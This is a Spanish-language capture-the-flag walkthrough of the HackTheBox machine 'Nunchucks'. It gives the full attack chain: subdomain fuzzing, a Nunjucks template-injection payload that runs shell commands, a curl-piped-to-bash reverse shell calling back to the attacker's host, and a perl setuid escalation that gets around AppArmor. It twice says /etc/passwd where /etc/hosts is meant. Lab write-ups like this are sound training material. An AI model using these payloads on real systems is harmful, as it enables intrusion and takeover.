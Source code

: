 ## Summary

Tags: #Linux #HTTPS #Fuzzing #SSTI #Capabilities #Nmap 

- IP -> 10.10.11.122
- Ports -> TCP (22,80,443), UDP (idk)
- OS ->  Linux
- Services & Applications
    - 22 -> OpenSSH 4ubuntu0.3
    - 80 -> HTTP nginx 1.18.0
    - 443 -> HTTPS nginx 1.18.0

## Recon
Launchpad 4ubuntu0.3 -> Bionic
Launchpad nginx 1.18.0 -> Hirsuite 
Dentro de la maquina lo podremos averiguar 

❯ **nmap -p- --open -sS --min-rate 5000 -vvv -n -Pn 10.10.11.122  -oG allPorts**
❯ **nmap -sCV -p22,80 10.10.11.122 -oN targeted**

❯ **whatweb \http://10.10.11.122**  -> Nos dara una breve descripcion del gestor de contenidos del puerto 80
* Nos manda u re-direct, por lo tanto vamos a agregar la url **nunchucks.htb** a nuestro /etc/passwd 

❯ **openssl s_client -connect 10.10.11.122:443** Para conectarnos al openssl e inspeccionar el certificado del puerto 443

Ahora nos disponemos a ver la paginas web en el navegador 
En el Wapalyzer podemos ver en 
* Lenguaje de programacion: **Node.js**

Encontramos un **Log in** pero no nos podemos loggear ni registrarnos
Ahora hacemos Fuzzing para buscar subdominios
❯ **gobuster vhost -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt --url \https://nunchucks.htb -t 200** **-k** 
* Nos descubre un subdominio **store.nunchucks.htb**

❯ **wfuzz -c --hc=404 --hh=30587 -t 200 -w /usr/share/seclists/Discovery/DNS/subdomains-top1million-5000.txt -H “Host: FUZZ.nunchucks.htb” \https://nunchucks.htb**

Despues agregamos ese dominio a nuestro **/etc/passwd** y lo miramos en el navegador web

Nos pide que ingresemos un email, al momento de hacerlo vemos que nos devuleve el email en la pantalla de la pagina web.
Por lo que estamos frente a un **Server Side Template Injection** en node.js, por lo que procedemos a buscar en **Google** (**node.js** **nunjunks** **ssti** **(https://disse.cting.org/2016/08/02/2016-08-02-sandbox-break-out-nunjucks-template-engine)**) el cual nos dara ejemplos de como usar esa vulnerabilidad.

Encontramos estos comando para poder introducisrlos en la pagina web.
```ruby
{{7*7}}@test.com            # Si nos muestra la respuesta en este caso 49, estamos ante un SSTI, colocamos el @test.com por que es un requisito de que lo que entra es un correo electronico.
```

Ahora en la misma pagina de nunjunks nos dice que comando podemos colocar para poder injectar un comando
❯ **{{range.constructor("return global.process.mainModule.require('child_process').execSync('tail /etc/passwd')")()}}@test.com**
* Tail -> Es para leer las ultimas 10 lineas de un archivo
Como esa entrada no se adecua a lo que nos indica que es de un correo, nos disponemos a abrir BurpSuite y desde ahi lo haremos 

❯ **burpsuite &> /dev/null &** Iniciamos el BurpSuite y lo mandamos a segundo plano
❯ **disown** Para independizar el proceso del BurpSuite
Lo que interceptemos lo mandamos al Repeater:
❯ **Ctrl + r** Para mandar lo del proxy al repeater

Esto lo colocaremos en el campo donde esta email, ademas debemos de escapar las comillas dobles internas
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('whoami')\\")()}}@test.com”**
Nos muestra el **whoami** de la maquina victima 

Como podemos ejecutar comandos, primero verificamos si podemos hacernos una peticion con **Curl** si es asi enconces podriamos hacernos una ReverShell para poder ganar acceso al sistema

❯ **python3 -m http.server 80** Nos montamos un servidor http 80
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web

Lo que trata de hacer la maquina al momento de ejecutar el **Curl** es tratar de obtener un **index.html** del servidor web. Por lo que nos disponemos a hacer un archivo que contenga una ReverShell y asi con Netcat podemos ganar acceso al sistema 

❯ **nano index.html**
	**#!/bin/bash**
	**bash -i >& /dev/tcp/10.10.14.2/443 0>&1**


## User
❯ **python3 -m http.server 80** Nos montamos un servidor http 80
❯ **nc -nlvp 443** Para ponernos en escucha por Netcat en espera de la revershell para Linux
“**email”:”{{range.constructor(\\"return global.process.mainModule.require('child_process').execSync('curl 10.10.14.2 | bash')\\")()}}@test.com”** Hacemos una peticion GET desde el servidor web para obtener el index.html malicioso y despues hacer que nos lo interprete con Bash

* Hacemos el tratamiento de la consola y buscamos la primer flag -> user.txt

❯ **lsb_release -a** Miramos algunas caracteristicas de la maquina Linux 
❯ **hostname -I** Nos muestra solo la direccion IP (I=i mayuscula)


## Root
❯ **uname -a** Miramos informacion del Kernel
❯ **find / -perm -4000 2>/dev/null** Buscaremos por privilegios suid
❯ **id** Para ver si estamos en un grupo especial

❯ **which getcap** Para ver si esta instalado el Getcap y mirar las capabilities
❯ **getcap -r / 2>/dev/null** Listamos las capabilities que existan desde la raiz de forma recursiva y buscamos el comando aqui GTFOBins [GTFOBins](https://gtfobins.github.io/)
* **/usr/bin/perl = cap_setuid+ep** Esta capabilitie nos permite gestionar el UID
	❯ **setcap cap_setuid+ep /usr/bin/perl** 
	❯ **perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'** Para conseguir la consola interactiva

Pero esto no funciona por lo que buscamos **Apparmor** que es modulo de seguridad del Kernel Linux que permite al administrador del sistema restringir las capabilities de un programa.

❯ **find \-name \*apparmor\* 2>/dev/null** | grep -vE “proc|var|share”** (vE=quitas multiples palabras)

Ahi buscamos
❯ **/etc/apparmor.d** y nos dirigimos a esa ruta con el comando cd. 

Miramos el siguiente archivo 
❯**cat usr.bin.perl** para ver el contenido del archivo y dentro hay un archivo que esta ejecutando un script en perl. 
Por lo que miramos su contenido **/opt/backup.pl**

Despues probamos el siguiente comando
❯ **perl /opt/backup.pl** Este comando solo se puede ejecutar y leer pero no podemos modificarlo, por lo que debemos de buscar un bug para poder entrar.

Buscamos en **Google (apparmor perl bugs)** y nos vamos a la siguiente pagina **bugs.launchpad.net**.
**Shebang** es el nombre que recibe el par de caracteres #! que se encuentran en el inicio de los programas ejecutables interpretados

❯ **cd /tmp/** Nos vamos al directorio tmp ya ahi tenemos ejecucion y lectura 

❯ **touch prueba.sh** Creamos el archivo y nos ayudara a tener una consola interactiva 
	#!/usr/bin/perl
	**use POSIX qw(setuid);**
	**POSIX::setuid(0);**
	**exec "****/bin/sh";

❯ **chmod** **+x prueba.sh** la ejecucion
❯ **./prueba.sh** Ejecutamos el comando anterior.

Despues de ser root nos vamos al directorio con **cd /root/** y obtenemos la flag root.txt




